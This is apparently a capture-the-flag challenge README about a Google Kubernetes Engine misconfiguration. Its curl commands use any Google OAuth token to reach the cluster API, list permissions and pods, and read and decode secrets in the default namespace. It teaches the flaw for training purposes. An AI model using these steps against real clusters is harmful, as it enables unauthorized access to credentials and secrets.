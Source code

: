 # Challenge 1: Confidential Cluster

## Introduction

> [!NOTE]
> IP address to start with: 34.139.3.217

You received just an IP address as your very first entrypoint into the GCP project.  
The IP belongs to a Google Kubernetes Cluster (GKE) - how can you access the Kubernetes API to learn more about the cluster?


To simplify your next commands, set the IP address as an environment variable:  
#####
    export IP=<IP>

You can access the API of the cluster at this endpoint:  
#####
    curl -k https://$IP/api

As you are not authenticated, you are part of the group `system:anonymous` and you can't access much.  
Most endpoints will respond with 403 permission denied.  

But what if you were in `system:authenticated`? 
Try to get a token for your own Google account using the [OAuth playground](https://developers.google.com/oauthplayground/) (select scope "Kubernetes Engine API v1").  

Set your token as environment variable to make the next commands easier to use.  
#####
    export TOKEN=<token>

Send a request with your token to the Kubernetes API:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/

Just by supplying any Google access token you will be able to access the endpoint!  

Once you have gained access and can read from the Kubernetes API - which API resources can you query?

You can find out which permissions 'system:authenticated' has on this cluster with a request to this endpoint:  
#####
    curl -k -X POST -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1", "kind":"SelfSubjectRulesReview", "spec":{"namespace":"default"}}' -H "Authorization:Bearer $TOKEN" https://$IP/apis/authorization.k8s.io/v1/selfsubjectrulesreviews

It looks like you have read access to some resources on the default namespace of the cluster.  
You can also query them by using the Kubernetes API - for example:  
#####
    curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/pods

## Your Goal

**Discover the secrets that this cluster has in store for you.**

## Useful commands and tools:

- `curl -k https://$IP`
- `curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/...`
- [Google OAuth Playground](https://developers.google.com/oauthplayground/)
- Learn more about this misconfiguration [here](https://orca.security/resources/blog/sys-all-google-kubernetes-engine-risk)

## Hints

<details>
  <summary>Hint 1</summary>

  You can read Kubernetes secrets in the default namespace on the cluster. Which secrets might it hold?  
  #####
      curl -k -H "Authorization:Bearer $TOKEN" https://$IP/api/v1/namespaces/default/secrets

</details>

<details>
  <summary>Hint 2</summary>

  The secret values are base64 encoded. Decode them to read the value:  
  #####
      echo -n <secret-value> | base64 -d  

</details>
